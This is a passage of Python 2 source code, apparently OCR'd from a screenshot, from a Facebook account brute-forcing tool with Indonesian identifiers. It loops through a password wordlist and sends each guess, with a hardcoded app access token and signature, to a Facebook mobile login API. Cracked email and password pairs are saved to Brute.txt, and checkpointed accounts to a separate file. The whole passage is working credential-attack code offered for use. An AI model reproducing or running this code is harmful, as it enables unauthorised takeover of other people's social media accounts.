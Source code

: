             jalan('\033[0;39m[\xe2\x9c\xba] \033[0;39mPlease wait \033[0;39m...')
            sandi = open(passw, 'r')
            for pw in sandi:
                try:
                    pw = pw.replace('\n', '')
                    sys.stdout.write('\r\033[0;39m[\033[0;39m\xe2\x9c\xb8\033[0;39m] \033[0;39mTry \033[0;39m' + pw)
                    sys.stdout.flush()
                    data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + email + '&locale=en_US&password=' + pw + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                    mpsh = json.loads(data.text)
                    if 'access_token' in mpsh:
                        dapat = open('Brute.txt', 'w')
                        dapat.write(email + ' | ' + pw + '\n')
                        dapat.close()
                        print '\n\033[0;39m[+] \033[0;39mFounded.'
                        print 52 * '\033[0;39m\xe2\x95\x90'
                        print '\033[0;39m[\xe2\x9e\xb9] \033[0;39mUsername \033[0;39m:\033[0;39m ' + email
                        print '\033[0;39m[\xe2\x9e\xb9] \033[0;39mPassword \033[0;39m:\033[0;39m ' + pw
                        keluar()
                    else:
                        if 'www.facebook.com' in mpsh['error_msg']:
                            ceks = open('Brutecekpoint.txt', 'w')
                            ceks.write(email + ' | ' + pw + '\n')
                            ceks.close()
                            print '\n\033[0;39m[+] \033[0;39mFounded.'
                            print  "\033[0;36;39 ~~~~~~~~~~~~~~~~~~~~~~~~~~~"
                            print '\033[0;39m[!] \033[0;39mAccount Maybe Checkpoint'
                            print '\033[0;39m[\xe2\x9e\xb9] \033[0;39mUsername \033[0;39m:\033[0;39m ' + email
                            print '\033[0;39m[\xe2\x9e\xb9] \033[0;39mPassword \033[0;39m:\033[0;39m ' + pw
                            keluar()
                except requests.exceptions.ConnectionError:
                    print '\033[0;39m[!] Connection Error'
                    time.sleep(1)
 
        except IOError:
            print '\033[0;39m[!] File not found...'
            print """\n\033[0;39m[!] \033[0;39mLooks like you don't have a wordlist"""
            super()
 
if __name__ == '__main__':
	masuk()
 
